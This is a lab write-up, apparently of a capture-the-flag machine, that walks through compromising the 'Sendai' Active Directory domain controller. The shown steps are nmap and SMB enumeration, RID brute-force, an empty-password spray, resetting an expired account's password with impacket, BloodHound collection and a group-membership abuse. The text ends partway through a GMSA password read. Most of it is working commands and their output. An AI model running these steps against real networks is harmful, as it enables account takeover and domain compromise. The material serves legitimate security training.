



# Sendai - Complete Write-up

**Date:** 16 July 2026  
**Machine Rank:** #774  
**Difficulty:** Medium  
**OS:** Windows Server 2022  
**Domain:** sendai.vl  
**IP Address:** 10.129.234.66  

---


## Executive Summary

Sendai is a medium-difficulty Windows Active Directory machine that demonstrates several real-world attack vectors commonly found in enterprise environments. The attack chain progresses through the following phases:

- **Anonymous SMB Enumeration** → **File Discovery** — The machine exposes several SMB shares with guest/read access, allowing anonymous enumeration of shares and retrieval of sensitive documents (`incident.txt` and `guidelines.txt`) that reveal critical information about the organization's password policies and a recent security incident involving weak passwords.

- **RID Brute-Force** → **User Enumeration** — Using the guest SMB session, we perform a RID brute-force attack to enumerate all domain users, building a comprehensive user list for further attacks.

- **Password Spraying** → **Password Reset Exploitation** — By spraying empty passwords across the enumerated user list, we identify accounts in a `STATUS_PASSWORD_MUST_CHANGE` state. This indicates accounts with expired passwords that can be reset without knowing the old password, leading to compromise of `thomas.powell`.

- **GMSA Abuse** → **Lateral Movement** — BloodHound analysis reveals that `thomas.powell` can be added to the `ADMSVC` group, which has `ReadGMSAPassword` rights over the `mgtsvc$` Group Managed Service Account. Reading the GMSA password hash provides access to the Domain Controller via WinRM.

- **Local Enumeration** → **Hardcoded Credentials** — While enumerating the system as `mgtsvc$`, we discover hardcoded credentials for `clifford.davey` stored in a service's ImagePath registry value, providing a new set of valid domain credentials.

- **ADCS Abuse (ESC4/ESC1)** → **Domain Administrator** — BloodHound reveals that `clifford.davey` is a member of the `CA-OPERATORS` group, which has `GenericAll` rights over a certificate template. We abuse this misconfiguration to forge a certificate for the Administrator account, extract its NT hash, and authenticate as Domain Administrator via Pass-the-Hash.

---

## Machine Information

| Detail | Value |
|:--|:--|
| **Machine Name** | Sendai |
| **OS** | Windows Server 2022, Build 20348 |
| **Difficulty** | Medium |
| **Domain** | `sendai.vl` |
| **Domain Controller** | `dc.sendai.vl` (`DC`) |

---

## Reconnaissance

### Initial Port Scanning

I initiate active enumeration with Nmap to perform a full TCP port scan on the target system. Due to the high number of open ports typical of Active Directory machines, I use a two-step approach: first scanning all ports at a high rate to locate open ports, and second running service version detection and default script scans on the identified open ports.

```bash
hyena@hyena$ nmap -p- --open --min-rate 5000 -sS -f -Pn -n 10.129.234.66 -oG puertos
hyena@hyena$ nmap -sC -sV -vvv -oA nmap/sendai 10.129.234.66
```


### Nmap Scan Results

```
# Nmap 7.94SVN scan initiated as: nmap -sC -sV -vvv -oA nmap/sendai 10.129.234.66
Nmap scan report for 10.129.234.66
Host is up, received syn-ack (0.35s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-15 17:03:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2025-08-18T12:30:05
|_Not valid after:  2026-08-18T12:30:05
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Not valid before: 2026-07-14T16:12:09
|_Not valid after:  2027-01-13T16:12:09
| rdp-ntlm-info: 
|   Target_Name: SENDAI
|   NetBIOS_Domain_Name: SENDAI
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sendai.vl
|   DNS_Computer_Name: dc.sendai.vl
|   DNS_Tree_Name: sendai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-15T17:06:40+00:00
|_ssl-date: 2026-07-15T17:07:15+00:00; +3m25s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
55806/tcp open  msrpc         Microsoft Windows RPC
55828/tcp open  msrpc         Microsoft Windows RPC
55900/tcp open  msrpc         Microsoft Windows RPC
64219/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
64220/tcp open  msrpc         Microsoft Windows RPC
64237/tcp open  msrpc         Microsoft Windows RPC
```

### Service Analysis

From the scan results, several key services confirm this is a Windows Active Directory Domain Controller:

| Port | Service | Significance |
|------|---------|--------------|
| 53 | DNS | Domain Name Service for domain resolution |
| 88 | Kerberos | Primary authentication protocol for AD |
| 389/636 | LDAP/LDAPS | Directory access for querying AD objects |
| 445 | SMB | File sharing and remote administration |
| 464 | kpasswd5 | Kerberos password change service |
| 3268/3269 | Global Catalog | Domain-wide directory searches |
| 3389 | RDP | Remote Desktop access |
| 5985 | WinRM | Windows Remote Management (PowerShell remoting) |

The service information reveals:

- **Domain**: `sendai.vl`
- **Hostname**: `dc.sendai.vl`
- **OS**: Windows Server 2022 (Build 20348)
- **SMB Signing**: Enabled and required (mitigates NTLM relay attacks)

### DNS Configuration

I add the domain to `/etc/hosts` for proper name resolution during enumeration:

```bash
hyena@hyena$ echo "10.129.234.66 sendai.vl dc.sendai.vl" | sudo tee -a /etc/hosts
```

This ensures that DNS lookups for the domain resolve to the target IP, enabling proper Kerberos authentication and service enumeration.

---

## SMB Share Enumeration

### What is SMB?

Server Message Block (SMB) is a network file-sharing protocol that allows applications to read and write to files and request services from server programs. In Active Directory environments, SMB is used extensively for file sharing, printer sharing, and inter-process communication. Anonymous or guest access to SMB shares is a common misconfiguration that can expose sensitive information.

### Anonymous Share Access

During enumeration of the publicly available services, I discover SMB file shares accessible with READ permissions as anonymous/guest users:

```bash
hyena@hyena$ smbclient -L //10.129.234.66 -N
```



```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
config          Disk      
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
sendai          Disk      company share
SYSVOL          Disk      Logon server share
Users           Disk      

Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.234.66 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

### Understanding NetExec

NetExec (nxc) is the actively maintained successor to CrackMapExec. It provides a unified interface for enumerating and attacking Windows networks through various protocols including SMB, LDAP, WinRM, and others.

```bash
hyena@hyena$ nxc smb dc.sendai.vl -u 'test' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\test: (Guest)
SMB         10.129.234.66   445    DC               [*] Enumerated shares
SMB         10.129.234.66   445    DC               Share        Permissions   Remark
SMB         10.129.234.66   445    DC               -----        -----------   ------
SMB         10.129.234.66   445    DC               ADMIN$       Remote Admin
SMB         10.129.234.66   445    DC               C$           Default share
SMB         10.129.234.66   445    DC               config
SMB         10.129.234.66   445    DC               IPC$         READ          Remote IPC
SMB         10.129.234.66   445    DC               NETLOGON     Logon server share
SMB         10.129.234.66   445    DC               sendai       READ          company share
SMB         10.129.234.66   445    DC               SYSVOL       Logon server share
SMB         10.129.234.66   445    DC               Users        READ
```

### Spidering for Files

I use NetExec's `spider_plus` module to recursively enumerate files across accessible shares, generating a JSON summary of all available files and their metadata. This provides a comprehensive overview of what we can access without downloading every file.

```bash
hyena@hyena$ nxc smb dc.sendai.vl -u 'test' -p '' -M spider_plus
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\test: (Guest)
SPIDER_PLUS 10.129.234.66   445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.234.66   445    DC               [*] DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.234.66   445    DC               [*] STATS_FLAG: True
SPIDER_PLUS 10.129.234.66   445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.234.66   445    DC               [*] EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.234.66   445    DC               [*] MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.234.66   445    DC               [*] OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SPIDER_PLUS 10.129.234.66   445    DC               [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.234.66.json"
```

### Files Discovered

The spidering process reveals several interesting files in the `sendai` share:

```json
"sendai": {
    "incident.txt": {
        "atime_epoch": "2023-07-18 18:34:15",
        "ctime_epoch": "2023-07-18 18:30:59",
        "mtime_epoch": "2023-07-18 18:34:15",
        "size": "1.34 KB"
    },
    "security/guidelines.txt": {
        "atime_epoch": "2023-07-18 14:18:33",
        "ctime_epoch": "2023-07-18 14:17:33",
        "mtime_epoch": "2023-07-18 14:18:33",
        "size": "4.43 KB"
    },
    "it/Bginfo64.exe": {
        "atime_epoch": "2023-07-18 14:16:43",
        "ctime_epoch": "2023-07-18 14:16:42",
        "mtime_epoch": "2023-07-18 14:16:46",
        "size": "2.65 MB"
    },
    "it/PsExec64.exe": {
        "atime_epoch": "2023-07-18 14:16:38",
        "ctime_epoch": "2023-07-18 14:16:37",
        "mtime_epoch": "2023-07-18 14:16:46",
        "size": "813.94 KB"
    }
}
```

### Downloading Sensitive Files

I download the discovered text files for analysis:

```bash
hyena@hyena$ smbclient \\\\sendai.vl\\sendai -U 'guest%'
smb: \> get incident.txt
getting file \incident.txt of size 1372 as incident.txt (4.6 KiloBytes/sec)
smb: \> cd security
smb: \security\> get guidelines.txt
getting file \security\guidelines.txt of size 4538 as guidelines.txt (15.4 KiloBytes/sec)
```

### Incident.txt Analysis



```
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important
security update regarding user account passwords. Recently, we conducted a thorough
penetration test, which revealed that a significant number of user accounts have weak and
insecure passwords.

To address this concern and maintain the highest level of security within our organization,
the IT department has taken immediate action. All user accounts with insecure passwords
have been expired as a precautionary measure. This means that affected users will be
required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to
ensure the security and integrity of our systems. Please bear in mind that strong passwords
play a crucial role in safeguarding sensitive information and protecting our network from
potential threats.

If you need assistance or have any questions regarding the password reset procedure,
please don't hesitate to reach out to the IT support team. They will be more than happy
to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for
all of us. Your vigilance and adherence to robust security practices contribute
significantly to our collective safety.
```

#### Pentester Knowledge: Understanding STATUS_PASSWORD_MUST_CHANGE

When an Active Directory account has the "User must change password at next logon" flag set, it enters a `STATUS_PASSWORD_MUST_CHANGE` state. This is represented by NTSTATUS code `0xC0000224`.

**Critical Security Implication:** Accounts in this state allow password changes WITHOUT providing the current password. This is by design to allow users to set a new password when they can't remember their old one. Attackers can exploit this by changing the password of any account in this state, effectively compromising the account without knowing the original password.

```bash
# The attack pattern becomes:
# 1. Identify accounts in STATUS_PASSWORD_MUST_CHANGE state
# 2. Use impacket-changepasswd to set a new password
# 3. Account is now under attacker control
```

### Guidelines.txt Analysis

The `guidelines.txt` file contains the company's User Behavior Guidelines, which provide additional context about the organization's security posture and potential password patterns:

- Password security requirements
- Account management policies
- Data classification procedures
- Software usage restrictions

---

## Foothold

### RID Brute-Force for User Enumeration

#### What is RID Brute-Force?

In Windows Active Directory, every security principal (user, group, computer) has a unique identifier called a Security Identifier (SID). The last portion of the SID is the Relative Identifier (RID), which uniquely identifies the object within the domain.

**RID Ranges:**
- 500: Built-in Administrator
- 501: Guest
- 502: krbtgt (Kerberos account)
- 512-520: Built-in groups
- 1000+: Regular domain users
- 1100+: Custom groups and users

The RID brute-force technique works because the Domain Controller can be queried for SIDs, and it will respond with information about the object if the SID is valid. By iterating through possible RIDs, an attacker can enumerate all domain users and groups even with low privileges.

```bash
hyena@hyena$ nxc smb 10.129.234.66 -u 'guest' -p '' --rid-brute
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\guest: 
SMB         10.129.234.66   445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB         10.129.234.66   445    DC               501: SENDAI\Guest (SidTypeUser)
SMB         10.129.234.66   445    DC               502: SENDAI\krbtgt (SidTypeUser)
SMB         10.129.234.66   445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               513: SENDAI\Domain Users (SidTypeGroup)
SMB         10.129.234.66   445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
SMB         10.129.234.66   445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
SMB         10.129.234.66   445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
SMB         10.129.234.66   445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.66   445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               525: SENDAI\Protected Users (SidTypeGroup)
SMB         10.129.234.66   445    DC               526: SENDAI\Key Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.66   445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.66   445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.66   445    DC               1000: SENDAI\DC$ (SidTypeUser)
SMB         10.129.234.66   445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
SMB         10.129.234.66   445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.66   445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
SMB         10.129.234.66   445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
SMB         10.129.234.66   445    DC               1105: SENDAI\websvc (SidTypeUser)
SMB         10.129.234.66   445    DC               1107: SENDAI\staff (SidTypeGroup)
SMB         10.129.234.66   445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
SMB         10.129.234.66   445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
SMB         10.129.234.66   445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
SMB         10.129.234.66   445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
SMB         10.129.234.66   445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
SMB         10.129.234.66   445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
SMB         10.129.234.66   445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
SMB         10.129.234.66   445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
SMB         10.129.234.66   445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
SMB         10.129.234.66   445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
SMB         10.129.234.66   445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
SMB         10.129.234.66   445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
SMB         10.129.234.66   445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
SMB         10.129.234.66   445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
SMB         10.129.234.66   445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
SMB         10.129.234.66   445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
SMB         10.129.234.66   445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
SMB         10.129.234.66   445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
SMB         10.129.234.66   445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
SMB         10.129.234.66   445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
SMB         10.129.234.66   445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
SMB         10.129.234.66   445    DC               1129: SENDAI\admsvc (SidTypeGroup)
SMB         10.129.234.66   445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
SMB         10.129.234.66   445    DC               1131: SENDAI\support (SidTypeGroup)
```

### Identifying Accounts with STATUS_PASSWORD_MUST_CHANGE

I save all enumerated usernames to a file and perform a password spray using empty passwords:

```bash
hyena@hyena$ nxc smb 10.129.234.66 -u users.txt -p '' --continue-on-success
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.66   445    DC               [-] sendai.vl\Administrator: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [+] sendai.vl\Guest: 
SMB         10.129.234.66   445    DC               [-] sendai.vl\krbtgt: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\DC$: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\sqlsvc: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\websvc: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Dorothy.Jones: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kerry.Robinson: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Naomi.Gardner: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Anthony.Smith: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Susan.Harper: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Stephen.Simpson: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Marie.Gallagher: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kathleen.Kelly: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Norman.Baxter: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Jason.Brady: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Malcolm.Smith: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lisa.Williams: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Ross.Sullivan: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Clifford.Davey: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Declan.Jenkins: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lawrence.Grant: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Leslie.Johnson: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Megan.Edwards: STATUS_LOGON_FAILURE
SMB         10.129.234.66   445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
SMB         10.129.234.66   445    DC               [-] sendai.vl\mgtsvc$: STATUS_LOGON_FAILURE
```

#### Pentester Knowledge: The Password Spray Attack

Password spraying is a technique where an attacker tries a small number of common passwords (or empty passwords) against a large number of user accounts. This differs from brute-forcing, where many passwords are tried against a single account.

**Why Password Spraying Works:**
- Most organizations have at least a few accounts with weak passwords
- Password policies often expire passwords, creating accounts in "must change" state
- Monitoring for multiple failed attempts on a single account is common, but monitoring for a single failed attempt across many accounts is less common

**Common Privilege Escalation Path:**
Accounts in `STATUS_PASSWORD_MUST_CHANGE` state represent a significant security risk because an attacker can change the password without knowing the current one. This effectively gives the attacker control of the account.

### Password Reset Exploitation

I use Impacket's `changepasswd` tool to reset `thomas.powell`'s password without knowing the current one:

```bash
hyena@hyena$ impacket-changepasswd sendai.vl/thomas.powell:@10.129.234.66 -newpass 'Password1'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

Current password: 
[*] Changing the password of sendai.vl\thomas.powell
[*] Connecting to DCE/RPC as sendai.vl\thomas.powell
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

#### Pentester Knowledge: The DCE/RPC Protocol

Microsoft's Distributed Computing Environment/Remote Procedure Call (DCE/RPC) is a protocol that allows applications to call remote procedures on other systems. Active Directory uses DCE/RPC for many administrative functions, including password management.

The `impacket-changepasswd` tool works by:
1. Attempting to authenticate with the provided credentials
2. Receiving a `STATUS_PASSWORD_MUST_CHANGE` response
3. Reconnecting with a null session to perform the password change operation
4. Using the `NetUserSetInfo` RPC call to set the new password

---

## GMSA Abuse for Lateral Movement

### What is a GMSA Account?

A Group Managed Service Account (GMSA) is a special type of Active Directory account introduced in Windows Server 2012. GMSAs are designed to be used by services running on multiple systems, providing automatic password management and simplified service principal name (SPN) management.

**Key GMSA Properties:**
- Password is managed automatically by the domain controller
- Password is changed automatically every 30 days (default)
- Password is stored as a 240-byte BLOB in Active Directory
- Only authorized principals (as defined in `PrincipalsAllowedToRetrieveManagedPassword`) can retrieve the password

**Security Risk:** If an attacker can compromise a principal with `ReadGMSAPassword` rights, they can retrieve the GMSA password hash and impersonate the service account.

### BloodHound Analysis

#### What is BloodHound?

BloodHound is a powerful tool for visualizing and analyzing Active Directory attack paths. It uses graph theory to identify relationships between objects and highlight potential privilege escalation vectors. The tool collects data about users, groups, computers, and their relationships, then displays this information in a visual graph.

The attack paths are based on:
- **GenericAll**: Full control over an object
- **GenericWrite**: Can modify an object's attributes
- **WriteDACL**: Can modify an object's permissions
- **WriteOwner**: Can change ownership of an object
- **ReadGMSAPassword**: Can read the password of a GMSA account

I collect data using BloodHound Python and import it for analysis:

```bash
hyena@hyena$ bloodhound-ce-python -u 'thomas.powell' -p 'Password1' -d sendai.vl --zip -c All -dc dc.sendai.vl -ns 10.129.234.66
```

### Attack Path Discovered

BloodHound analysis reveals the following attack path:

```
Thomas.Powell (owned)
    ↓ Member of
SUPPORT (Group)
    ↓ GenericAll rights over
ADMSVC (Group)
    ↓ ReadGMSAPassword rights over
mgtsvc$ (GMSA Account)
    ↓ Member of
REMOTE MANAGEMENT USERS (Group)
    ↓ Access via WinRM
Domain Controller (dc.sendai.vl)
```

### Abusing GenericAll Rights

The `GenericAll` right gives full control over the target object, including:
- Adding or removing members
- Modifying object permissions
- Changing object attributes

I abuse this right to add `thomas.powell` to the `ADMSVC` group:

```bash
hyena@hyena$ bloodyAD --host 10.129.234.66 -u thomas.powell -p 'Password1' -d sendai.vl add groupMember "ADMSVC" "thomas.powell"
[+] thomas.powell added to ADMSVC
```

#### Pentester Knowledge: Understanding BloodyAD

BloodyAD is a Python tool that provides a command-line interface for performing Active Directory attacks. It supports various operations including:
- Adding/removing group members
- Modifying object attributes
- Reading GMSA passwords
- Performing generic LDAP operations

The tool uses LDAP and SMB protocols to interact with the domain controller, making it useful for both enumeration and exploitation.

### Reading the GMSA Password

With `thomas.powell` now a member of `ADMSVC`, I can read the GMSA password for `mgtsvc$`:

```bash
hyena@hyena$ netexec ldap dc.sendai.vl -u thomas.powell -p Password1 --gmsa
LDAP        10.129.234.66   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl) (signing:None) (channel binding:Never)
LDAP        10.129.234.66   389    DC               [+] sendai.vl\thomas.powell:Password1
LDAP        10.129.234.66   389    DC               [*] Getting GMSA Passwords
